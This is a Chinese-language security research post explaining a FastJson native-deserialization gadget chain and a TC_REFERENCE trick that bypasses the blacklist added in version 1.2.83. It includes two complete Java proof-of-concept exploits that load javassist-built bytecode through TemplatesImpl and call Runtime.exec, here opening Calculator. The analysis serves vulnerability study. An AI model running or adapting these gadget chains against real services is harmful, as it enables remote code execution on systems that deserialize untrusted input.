# 前言

前一段时间有人来问我，有没有了解过FastJson1.2.83的反序列化，好久没有看过漏洞，抱着重温的想法，来寻找一下相应的POC，发现这并不是FastJson的反序列化，而是Java原生的反序列化的FastJson利用链，是一年多以前看到过但是没有去了解的东西，刚好来重温一下

# FastJson原生反序列化（一）

与原生反序列化相关的话那就需要继承Serializable接口，ctrl+h看继承关系选中到fastjson包

发现只有三个类继承了Serializable接口



重点来按JSONArray和JSONObject类，他们都继承了JSON类，并且实现了Serializable接口



在JSON类中存在toString方法，这个方法看过CC链的都知道，BadAttributeValueExpException的readObject方法可以调用任意类的toString方法，再看这个toString方法是调用的toJSONString

这个toString方法在FastJson序列化的时候见过，翻出来了才学FastJson的代码

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class Ser {
    public static void main(String[] args){
        Student student = new Student();
        student.setName("DawnT0wn");
        student.setAge(20);
        String jsonstring = JSON.toJSONString(student, SerializerFeature.WriteClassName);
        System.out.println(jsonstring);
    }
}
```

在序列化的时候，通过`JSON.toJSONString`可以调用到对应类的Getter方法



那链子就差不多出来了，从BadAttributeValueExpException——>toString——>toJSONString——>templatesImpl的getter方法加载恶意类

至于为什么可以调用到getter方法，大概到意思就是提取相应的类信息，通过ASM创建出一个类调用其中的getter方法，详细的可以在Y4的博客中看到

https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

## 利用链复现

```
<dependencies>
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.19.0-GA</version>
    </dependency>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.48</version>
    </dependency>
</dependencies>
```

```
package org.example;

import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Main {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("test");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -na Calculator\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "DawnT0wn");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```



这条链子在fastjson2也可以用，但是在fastjson1的话，1.2.48后的版本就不能用了

从1.2.49开始，JSONArray以及JSONObject方法开始真正有了自己的readObject方法



在其`SecureObjectInputStream`类当中重写了`resolveClass`,在其中调用了`checkAutoType`方法做类的检查



从而在反序列化中调用checkAutoType进行黑名单检查，之间服用AutoType黑名单中的类

# FastJson原生反序列化绕过

在反序列化的防御过程中，我们通常就是用一个重写了resolveClass的ObjectInputStream的继承类来进行反序列化

```
TestInputStream -> readObject -> resolveClass
```

但是在FastJson中，我们的利用点如果是不安全的ObjectInputStream来进行反序列化，就是在调用过程中的类重写了readObject，里面调用安全的ObjectInputStream的继承类是否安全

大致的过程就变为了

```
ObjectInputStream -> readObject->xxxxxx(省略中间过程)->SecureObjectInputStream -> readObject -> resolveClass
```

在重新了解完了序列化和反序列化流程后，发现在序列化的时候会根据不同的数据类型写入不同的TC标记，在反序列化的时候会通过bytes中的TC标记去恢复对象

先来看反序列化的主要地方



在readObject0方法中，会根据不同的TC标记调用不同的内容，上面的不同case中大部分类都会最终调用`readClassDesc`去获取类的描述符，在这个过程中如果当前反序列化数据下一位仍然是`TC_CLASSDESC`那么就会在`readNonProxyDesc`中触发`resolveClass`



在resolveClass方法中获取当前类，实例化返回



如果遇见了`TC_ARRAY`，`TC_ENUM`，`TC_OBJECT`，`TC_STRING`以及`TC_LONGSTRING`标记，那么会调用`checkResolve`方法以检查反序列化的对象中是否重写了`readResolve`方法



回到switch分支的代码，不会调用`readClassDesc`的分支有`TC_NULL`、`TC_REFERENCE`、`TC_STRING`、`TC_LONGSTRING`、`TC_EXCEPTION`，string与null这种对我们毫无用处的，exception类型则是解决序列化终止相关，这一点可以从其描述看出

那么就只剩下了reference引用类型了

那就需要我们的恶意类在序列化的时候的标记是一个引用类从而来绕过resolveClass的检查

当向List、set、map类型中添加同样对象时即可成功利用，以HashMap为例

HashMap重写了writeObject方法，其中会调用internalWriteEntries处理HashMap中的key，value



在internalWriteEntries会调用ObjectOutputSteam的writeObject对KV进行序列化



也就是说对于HashMap中的KV会走一遍序列化流程，在序列化的时候会将元数据写到`handles`对象的映射表，当序列化HashMap后，因为对KV走了序列化流程，那么handles对象映射表中就会有KV所代表的对象的映射，继续往后进行序列化，当再次遇到KV中的对象时，找到了对应的映射，就会调用writeHandle写入这个对象的数据



writeHandle会将这个重复对象以TC_REFERENCE标记写入



所以现在HashMap中的KV的标记就是TC_REFERENCE了，以至于在反序列化中的标记是TC_REFERENCE导致在switch代码中进入TC_REFERENCE的分支，绕过了resolveClass的执行

反序列化时会触发JSONArray/JSONObject的readObject方法，将这个过程委托给`SecureObjectInputStream`，但在恢复JSONArray/JSONObject中的TemplatesImpl对象时，由于此时的第二个TemplatesImpl对象是引用类型，通过readHandle恢复对象的途中不会触发resolveClass，由此实现了绕过

主要的是要对TemplatesImpl对象恢复时绕过resolveClass对黑名单的检查

## 利用链复现

这里把依赖换成了1.2.83

```
package org.example;

import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Main {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("test");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -na Calculator\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "DawnT0wn");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates, val);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```




参考链接：

